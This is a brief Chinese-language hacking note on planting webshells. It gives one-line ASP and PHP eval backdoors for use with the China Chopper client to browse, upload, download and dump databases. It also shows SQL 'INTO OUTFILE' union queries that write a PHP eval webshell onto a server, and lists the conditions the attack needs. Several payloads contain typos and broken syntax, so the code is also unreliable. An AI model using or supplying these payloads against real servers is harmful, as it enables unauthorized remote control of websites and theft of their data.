 webshell 
一句话木马配上中国菜刀 
文件名字为 xxx .asp  如ma.asp 

 

```php
asp <%excute(request("value"))%> 

​       <%eval request("pass")%> 

PHP <?php @eval<$_post['pass'] >?> 
```

 用URL地址在中国菜刀使用进行关键查找，下载，上传，拖库等操作 

 

 

sql语句执行写入webshell 

```sql
select "test1 " into outfile "D:/Apperve/tset1.txt" 

select *from hacer union select 1,2,3 into outfile "D://Appserve/test2.txt" 
```

/*将联合查询的所有内容输入到test2.txt中*/ 

```sql
select *from hacer union select 1,<?php @eval($_post['pass']);?>,3 into outfile "D://Appserve/test3.php"   //利用此漏洞上传写入php文件 
```

 使用限制 

1. 需要mssq 或者 mysql 
2. 需要管理员权限 
3.  需要知道物理路径